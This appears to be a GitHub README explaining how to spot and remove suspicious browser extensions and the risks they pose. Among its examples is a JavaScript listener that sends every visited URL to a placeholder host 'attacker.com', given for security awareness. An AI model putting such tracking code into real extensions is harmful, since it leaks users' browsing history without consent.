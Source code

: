 # Spotting-and-Removing-Suspicious-Extensions

o identify and remove suspicious browser extensions, follow a clear, step-by-step process using your web browser’s built-in tools. Suspicious extensions often have vague names, require excessive permissions, have poor reviews, or are no longer used. Removing them can improve both your browser’s security and overall performance

| Extension Name               | Reason for Concern/Removal    | Action Taken |
| ---------------------------- | ----------------------------- | ------------ |
| Deal Finder                  | Unfamiliar, excessive rights  | Removed      |
| PDF Converter Pro            | Poor reviews, invasive access | Removed      |
| Weather Now                  | Unused, installed long ago    | Removed      |
| (Write your own examples...) |                               |              |


Malicious or poorly secured browser extensions pose several significant risks. Below are key ways they can affect users, with real-world and code-based examples:

#### 1. Stealing Sensitive Information
Browser extensions with broad permissions can access data on every website you visit, including credentials, cookies, session tokens, and payment details. This risk is heightened when extensions require “tabs” and “<all_urls>” permissions.

- **Example: Manifest with Broad Permissions**
  ```json
  {
    "permissions": [
      "tabs",
      "http://*/*",
      "https://*/*",
      "storage"
    ]
  }
  ```
  Such permissions could allow a compromised extension to collect sensitive information across all browsing sessions.[1]

#### 2. Hijacking Sessions and Impersonating Users
If an extension can access your cookies or authentication tokens, it can impersonate you on other sites. Server-Side Request Forgery (SSRF) vulnerabilities have been observed where extensions send authenticated requests to attacker-chosen domains, resulting in credential theft.[2]

#### 3. Installing Malware or Causing Redirects/Ads
Some malicious extensions inject unwanted advertisements into webpages or silently redirect users to phishing sites. They may fetch and execute third-party scripts or payloads, further expanding the attack surface.

- **Example: Data Leakage Code**
  ```javascript
  chrome.tabs.onUpdated.addListener((tabId, changeInfo, tab) => {
    if (changeInfo.status === 'complete') {
      fetch('http://attacker.com/track', {
        method: 'POST',
        body: JSON.stringify({ url: tab.url })
      });
    }
  });
  ```
  This snippet sends every page you visit to a remote attacker.[1]

#### 4. Slowing Down Performance
Extensions running heavy background scripts or injecting ads can degrade browser and system performance.

#### 5. Insecure Storage and Privacy Risks
Extensions that store sensitive tokens or credentials in unencrypted local storage are vulnerable to theft if any malware or another extension gains access:

**Insecure Storage Example**
  ```javascript
  // Bad practice: storing unencrypted tokens
  localStorage.setItem('token', 'my-secret-token');
  ```

#### 6. Lack of Privacy Controls
Many extensions have no privacy policy or provide unclear data collection details, which allows unlimited data abuse.[1]


This expanded explanation is intended for inclusion in repository documentation, security awareness training, or code review guidelines for browser extension security.[2][1]

[1](https://github.com/OWASP/CheatSheetSeries/issues/1516)
[2](https://github.blog/security/vulnerability-research/attacking-browser-extensions/)
[3](https://github.com/Tuhinshubhra/ExtAnalysis)
[4](https://github.com/topics/chrome-extension)
[5](https://pushsecurity.com/blog/guide-to-secure-browser-extension-deployment/)
[6](https://gist.github.com/084ce6d706ec317b62ff99830454f443)
[7](https://github.com/topics/browser-security)
[8](https://rewind.com/blog/best-github-chrome-extensions/)
[9](https://developer.mozilla.org/en-US/docs/Mozilla/Add-ons/WebExtensions/Examples)
[10](https://github.com/PlasmoHQ/plasmo)
